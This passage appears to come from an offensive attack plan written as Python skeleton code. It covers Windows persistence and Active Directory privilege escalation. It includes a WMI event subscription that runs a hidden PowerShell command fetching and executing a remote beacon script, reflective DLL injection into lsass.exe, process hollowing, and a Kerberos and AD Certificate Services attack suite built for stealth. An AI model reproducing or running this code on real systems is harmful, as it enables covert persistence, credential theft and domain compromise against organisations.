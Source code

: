 ```python
        
        return all(persistence_layers)

    def wmi_event_subscription_persistence(self):
        """WMI permanent event subscription for persistence"""
        event_filter = """
        SELECT * FROM __InstanceCreationEvent 
        WITHIN 10 
        WHERE TargetInstance ISA 'Win32_Process' 
        AND TargetInstance.Name = 'explorer.exe'
        """
        
        event_consumer = """
        $Command = "powershell -ep bypass -w hidden -c IEX (New-Object Net.WebClient).DownloadString('http://cdn.azureedge[.]net/beacon.ps1')"
        """
        
        return self.create_wmi_subscription(event_filter, event_consumer)

class StealthyMemoryPersistence:
    """Fileless persistence techniques using memory-only approaches"""
    
    def reflective_dll_injection(self, target_process="lsass.exe"):
        """Inject DLL into process memory without touching disk"""
        dll_data = self.download_malicious_dll()
        return self.inject_reflective_dll(target_process, dll_data)
    
    def process_ghosting(self):
        """Process hollowing with herpaderping evasion"""
        legitimate_process = "C:\\Windows\\System32\\svchost.exe"
        return self.process_hollowing(legitimate_process, self.shellcode)
```

## Phase 3: Enhanced Privilege Escalation - Enterprise AD Focus

### Advanced Active Directory Exploitation Suite
```python
class ADExploitationSuite:
    def __init__(self, domain_controller):
        self.dc = domain_controller
        self.attack_paths = []
    
    def perform_kerberos_attacks(self):
        """Comprehensive Kerberos attack suite"""
        attacks = {
            "kerberoasting": self.kerberoast_service_accounts(),
            "asreproasting": self.asreproast_no_preauth_accounts(),
            "golden_ticket": self.forge_golden_ticket(),
            "silver_ticket": self.forge_silver_tickets(),
            "diamond_ticket": self.forge_diamond_ticket()  # More stealthy variant
        }
        return attacks

    def adcs_escalation_framework(self):
        """AD Certificate Services exploitation framework"""
        escalation_paths = []
        
        # ESC1 - Vulnerable Certificate Template
        if vulnerable_templates := self.find_esc1_templates():
            escalation_paths.append(("ESC1", vulnerable_templates))
        
```